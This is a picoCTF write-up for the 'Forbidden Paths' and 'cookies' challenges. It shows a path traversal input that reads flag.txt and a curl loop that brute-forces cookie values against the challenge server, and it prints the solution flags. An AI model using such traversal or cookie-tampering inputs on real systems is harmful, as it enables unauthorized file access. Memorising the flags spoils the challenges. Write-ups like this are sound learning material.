 # SOAP
TBD


# Forbidden Paths
We'll we've got a website with a field to enter files.
![Website overview](../assets/forbidden_paths/1.png)

Let's try the most obvious solution and enter `/flag.txt`
![Not authorized](../assets/forbidden_paths/2.png)

Let's try giving a relative path which goes all the way back like `../../../../../../../../../../../flag.txt`
![The flag](../assets/forbidden_paths/3.png)
We have our flag in the website body and it's `picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}`.
(That quite surprisingly worked, and we've got the flag... That was pleasantly easy!)


# cookies
The challenge name strongly hints at something related to cookies.
Apparently there's only one cookie set with the key `name` with value `-1`
![Cookies initially](../assets/cookies/1.png)

We, change the value of the `name` cookie to some other value (say `0`), and we observe a change when refreshed (the form has the state of one which has already been submitted)
![Cookies after change](../assets/cookies/2.png)

We keep trying values from `0` to however many until we get any new interesting value, we write a small bash script which uses `curl` to automate this process for us.
```bash
achu@air ~ % i=0; while true; do curl -sS -L -b "name=$i" http://mercury.picoctf.net:6418/ | grep 'font-size:30px'; i=$((i + 1)); done
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love oatmeal raisin cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love gingersnap cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love shortbread cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love peanut butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love whoopie pie cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love sugar cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love molasses cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love kiss cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love biscotti cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love spritz cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love snowball cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love drop cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love thumbprint cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love pinwheel cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love wafer cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
            <p style="text-align:center; font-size:30px;"><b>I love macaroon cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love fortune cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love crinkle cookies!</b></p>
^C
achu@air ~ % 
```
`-sS` to suppress progress bar (`s`) but to propagate errors if they occur (`S`).
`-L` to follow HTTP redirects.
`-b` for setting cookie.
We pipe this to `grep` which searches for `font-size:30px` (because that's the only `p` container for that specific text size so we can narrow down to just one container with rudimentary tricks instead of proper HTML parsing).
We get the flag `picoCTF{3v3ry1_l0v3s_c00k135_88acab36}` on `name=18` iteration.
